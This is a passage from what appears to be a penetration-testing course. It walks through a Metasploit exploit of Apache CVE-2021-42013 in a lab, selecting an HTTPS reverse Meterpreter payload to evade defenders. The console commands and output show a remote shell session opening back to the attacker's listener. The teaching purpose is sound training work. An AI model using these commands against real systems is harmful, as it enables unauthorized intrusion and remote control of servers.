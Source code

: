 > Listing 43 - Display Meterpreter HTTPS non-staged payload

Listing 43 shows that index 10 is *payload/linux/x64/meterpreter\_reverse\_https*. Instead of a raw TCP connection, this payload uses HTTPS to establish the connection and communication between the infected target and our Kali machine. As the traffic itself is encrypted with SSL/TLS, defenders will only obtain information about HTTPS requests. Without further defensive techniques and technologies, they will be unlikely to decipher the Meterpreter communication.

Let's select this payload and display its options.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 10
payload => linux/x64/meterpreter_reverse_https

msf6 exploit(multi/http/apache_normalize_path_rce) > show options

...

Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The local listener hostname
   LPORT  4444             yes       The local listener port
   LURI                    no        The HTTP Path

...
```

> Listing 44 - Display Meterpreter HTTPS non-staged payload

Listing 44 shows there is an additional option for this payload named *LURI*. This option can be used to leverage a single listener on one port capable of handling different requests based on the path in this option and provide a logical separation. If we leave this option blank, Metasploit just uses **/** as path.

Now, let's launch the exploit module by entering **run** without setting a value to the *LURI* option.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started HTTPS reverse handler on https://192.168.119.4:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_https command payload
[*] https://192.168.119.4:4444 handling request from 192.168.50.16; (UUID: qtj6ydxw) Redirecting stageless connection from /5VnUXDPXWg8tIisgT9LKKgwTqHpOmN8f7XNCTWkhcIUx8BfEHpEp4kLUgOa_JWrqyM8EB with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69'
...
[*] https://192.168.119.4:4444 handling request from 192.168.50.16; (UUID: qtj6ydxw) Attaching orphaned/stageless session...
[*] Meterpreter session 5 opened (192.168.119.4:4444 -> 127.0.0.1) at 2022-08-08 06:12:42 -0400
[!] This exploit may require manual cleanup of '/tmp/IkXnnbYT' on the target

meterpreter >
```
